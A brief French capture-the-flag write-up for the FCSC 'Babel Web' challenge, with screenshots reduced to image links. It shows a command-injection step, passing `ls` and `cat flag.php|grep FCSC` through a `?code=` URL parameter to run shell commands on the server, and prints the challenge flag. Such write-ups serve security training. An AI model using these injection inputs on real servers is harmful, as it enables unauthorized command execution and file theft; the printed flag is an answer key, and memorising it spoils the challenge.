





# Babel Web

Arrive sur la page:

Allons voir les sources:

Tester l'argument `?source=1`:

Tester l'argument `?code=ls`:

Il y a donc un fichier `flag.php`. Faire un `cat` dessus ne permettra pas d'en afficher le contenu car le **php** sera interprete par notre navigateur. De ce fait, encodons la commande `cat flag.php|grep FCSC` via [urlencoder.org](https://www.urlencoder.org/) et observons le resultat:

> _`grep%20FCSC%20flag.php` aurait egalement pu fonctionner._

flag: `FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}`